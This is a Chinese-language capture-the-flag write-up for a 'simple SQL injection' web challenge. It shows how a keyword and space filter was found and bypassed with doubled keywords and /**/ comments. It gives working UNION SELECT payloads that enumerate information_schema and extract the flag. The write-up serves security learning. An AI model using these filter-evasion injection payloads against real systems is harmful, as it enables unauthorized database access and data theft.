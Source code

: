 

# 简单sql注入

## 题目

> [http://ctf5.shiyanbar.com/423/web/](http://ctf5.shiyanbar.com/423/web/) 
>
> flag
>
> 到底过滤了什么东西？

## 流程图

## 解题步骤

#### 参考文章

##### 0x1 直接猜测表名和字段名

> 解题思路：研究了好久，看了writeup才知道
>
> 1）在文本框输入1，提交，链接变成id=1
>
> 2）在文件框输入1‘，提交，报错，判断存在注入。
>
> 3）初步预计后台表为flag,字段名为flag,需要构造union select flag from flag来执行。
>
> 4）根据第二步的报错信息看，多加个‘，后面的语句需要再构造一个条件来结束’，注入语句为：1‘ union select flag from flag where 't'='t
>
> 执行后报错：heck the manual that corresponds to your MySQL server version for the right syntax to use near 'flag flag 't'='t'' at line 1
>
> 分析：根据错误信息发现只有变量了，其他的关键字都被过滤了。
>
> 5）把关键字写2遍提交，发现如下报错： corresponds to your MySQL server version for the right syntax to use near 'unionselectflag fromflag where't'='t'' at line 1
>
>   分析：发现空格被过滤了
>
> 6)）使用+号在空格之前连接：
>
> <http://ctf5.shiyanbar.com/423/web/?id=1> '+unionunion +selectselect +flag+fromfrom +flag+wherewhere+'t'='t
>
> 得到KEY:flag{xxxxxx}

##### 0x2 正常流程读取

> http://www.shiyanbar.com/ctf/writeup/4750

#### 步骤

##### 0x1 直接猜测法

1. 在文本框输入1，提交，链接变成id=1

2. 在文件框输入1‘，提交，报错，判断存在注入

3. 在文本框输入`test`，提交，链接变成id=test，未返回错误，说明该注入类型为字符型注入

4. 参考上面的文章1

5. 在文章1的第五步当中，发现空格被过滤是对的，但是并不是因为编码的原因，即使将空格替换为+号，但是没有重复，依然会被过滤掉，经过测试，发现如下语句可以正常执行

   ```mysql
   http://ctf5.shiyanbar.com/423/web/?id=1'unionunion  selectselect  flag fromfrom  flag wherewhere 't'='t
   ```

   所有被过滤的关键词（除了where）后面都必须跟两个空格，非关键词后面的空格不会被过滤掉，**至于where后面为什么只需要一个空格，可能和分组的机制有关系，仍需分析**

   不论空格被替换为+号还是/\*\*/，但是不能重复出现两个/\*\*/，虽然在mysql中可以正常执行，但是由于后台过滤只会把+号解析为空格，然后对每个以空格分割后的分组应用进行从后往前的关键词过滤，并且只进行一次

6. 基于上诉的分析，所以，可以不采用重复关键词的方法，只使用/**/替代掉空格，就会使得从后向前的过滤机制失效，从而可以不使用重复关键词的方法

##### 0x2 标准流程法

1. 基于上述过滤要点分析，先查询数据库名

   ```myslq
   1' union/**/select/**/database()'
   ```

   得到结果`web1`

2. 猜测表名

   ```mysql
   1' union/**/select/**/table_name from/**/information_schema.tables/**/where/**/table_schema/**/='web1
   ```

   这里报了错：

   > ### `You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '='web'' at line 1`

   可以得知，`table_schema`被作为关键词过滤了，但是过滤的方式却不同，即使使用双重关键词的方式依旧不行，尝试使用双重查询语句（nonrecursivereplacement有类似的功能），发现可以绕过

   ```mysql
   http://ctf5.shiyanbar.com/423/web/?id=1' union/**/select/**/table_name from/**/information_schema.tables/**/where/**/table_schemtable_schemaa/**/='web1
   ```

   得到表名: `flag`和`web_1`

3. 猜测字段名

   同样需要对`information_schema.columns`进行双重查询

   ```mysql
   http://ctf5.shiyanbar.com/423/web/?id=1' union/**/select/**/column_namcolumn_namee/**/from/**/information_scheminformation_schema.columnsa.columns/**/where/**/table_name='flag
   ```

   得到字段名`flag`和`id`

4. 查询表数据

   ```mysql
   1'union/**/select/**/flag from/**/flag where/**/'1'='1
   ```

   得到flag：`flag{Y0u_@r3_5O_dAmn_90Od}`

## 解答思路

1. 判断是否存在注入点
2. 判断注入类型
3. 判断后台的过滤机制
   - 关键字被过滤
     - 重复关键词（例如selectselect），测试结果
   - 空格被过滤
     - 使用双重空格（使用+号替代也需要重复两次）
   - ~~该后台过滤的机制是将所有敏感字符只过滤第一次遇到的，所以将过滤关键词全部重复一次即可~~
   - 在有错误提示的情况下，可以有针对性的修改注入语句，如果没有错误提示，则需要遍历测试可能的绕过方式
4. 几个有关sql语法的点
   - union 关键词如果跟在字符串后面，不需要空格也能正常执行
   - `select database()`之后直接加上`''`可以正常执行，但 `select database() from ctf`之后加上`''`会导致语法错误，所以，需要使用where子句来闭合


## 漏洞挖掘思路

- 无

## 自动化解析

- TODO

- 判断题目特征：`web` `php` `md5` 
- 设定题目难度等级`level`为simple
- 提交相应符合要求的字符串

